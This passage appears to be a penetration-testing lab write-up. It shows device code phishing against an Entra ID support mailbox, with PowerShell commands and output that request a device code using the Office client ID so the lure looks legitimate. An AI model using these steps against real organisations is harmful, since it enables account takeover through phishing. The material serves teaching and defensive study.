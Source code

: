 ```
        "ipAddress": "20.75.112.13",
        "cloudId": "Public",
        "serviceTagId": "AzureCloud",
        "serviceTagRegion": "",
        "addressPrefix": "20.75.0.0/17"
      }
    ]
  }
]

```
Let's check the website https://international-am.com/ in a browser

[](leverage-device-code-phishing-for-initial-access-1.png)

There's a client login page, which returns `support@international-am.com` support contact when we enter incorrect credentials

[](leverage-device-code-phishing-for-initial-access-2.png)

Since the phishing is in scope, this could be useful. Seeing as this is a support account, it probably has some privileges that can be helpful. Let's send a phishing email to this mailbox.

Let's try device code phishing. It leverages the Entra ID device code authentication flow, which is a way of logging in on input-constrained devices, allowing the user to input a user code on second device and complete authentication, to approve the login session on the first device. 
  - A user starts an app that supports device code flow on an device.
  - The app connects to the Entra ID `/devicecode` endpoint and submits a `client_id` and `resource`.
  - Entra ID returns a `device_code`, `user_code`, and `verification_url`.
  - The device displays the `verification_url` (https://microsoft.com/devicelogin) along with the `user_code` for the user.
  - The user navigates to the `verification_url` in a web browser, enters the `user_code` as prompted, and logs in.
  - The device continuously queries Entra ID and, once the login is verified as successful, it receives an `access_token` and a `refresh_token`.

The process can be seen in the diagram below. Read more about the attack from here: [Introducing a new phishing technique for compromising Office 365 account](https://aadinternals.com/post/phishing/)

[](leverage-device-code-phishing-for-initial-access-3.png)

First, let's complete steps 2 and 3 of the authentication flow. We see the default user code expiry time of `900` seconds (15 minutes). We specify the well-known Microsoft Office application ID as the client ID, to help make the request seem more legitimate (we can choose any application ID). A list of common Microsoft application IDs is available [here](https://learn.microsoft.com/en-us/troubleshoot/entra/entra-id/governance/verify-first-party-apps-sign-in#application-ids-of-commonly-used-microsoft-applications).
```
└─PS> $body=@{     
>>     "client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
>>     "resource" =  "https://graph.microsoft.com"
>> }
```
```
└─PS> $authResponse=(Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body)
```
```
└─PS> $authResponse

user_code        : NMZJQAUF9
device_code      : NAQABIQEAAABVrSpeuWamRam2jAF1XRQE09ndKVv49gk6jy3CqsuWeI1_QmYA6xXlaj_oohySLh1yuqREoxbKZ893aWC0ubNDRt6JzQlD4B02hPEkbIa-d7tvRnvN_EUBmjc9eDlN_TvvSrB-FLnQj7W9r-Xw7_TVZhmqhsJABLLn8rsMZk-8V38-I16FqkbdAIY8tZSRGBUgAA
verification_url : https://microsoft.com/devicelogin
expires_in       : 900
interval         : 5
```